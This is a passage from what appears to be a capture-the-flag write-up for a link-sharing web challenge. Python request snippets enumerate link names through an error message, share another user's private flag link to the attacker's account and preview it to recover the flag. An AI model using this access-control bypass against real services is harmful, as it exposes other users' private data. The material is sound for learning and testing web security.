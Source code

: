 And we get:

```json
{"code":400,"data":{"err":"you cannot pick the link name which has already exists ['test', 'google', 'thefl4g_Not3', 'a', 'local']"}}
```

Now we have the name `thefl4g_Not3` and we can share it with our user:

```python
    url = "http://66.172.33.148:5001/api/links/share/private"
    r = requests.post(url, json={"link_name": "thefl4g_Not3", "random_number": "493291123", "user_id": "1", "share_user_id": "7"},
                      headers={
                          "auth-token": "1234.7974d396f5cfcdbe3433037c11e819ca",
                          "device-id": "not really verified",
                          "Content-Type": "application/json"
                      })
    print(r.text)
```

And we have:

```json
{"code":200,"data":{"msg":"the user_id(7) can view the link by /api/link/preview/1/493291123/thefl4g_Not3"}}
```

And finally we can view the flag link: 

```python
url = "http://66.172.33.148:5001//api/link/preview/1/493291123/thefl4g_Not3"
r = requests.get(url, headers={"auth-token": "1234.def8e3a5de492f1a5ba8c8f239560246", "device-id": "2ef73a3388eb415c5a415b8004bae2b9"})
print(r.text)
```

And there is:

```json
{"code":200,"data":{"link":"https://ShareL.tld/fL/r34d_me"}}
```

And we go to the `http://66.172.33.148:5001/fL/r34d_me` for the flag `flag":"ASIS{34f9266d60f7eb45a8f29796e44853eb}`
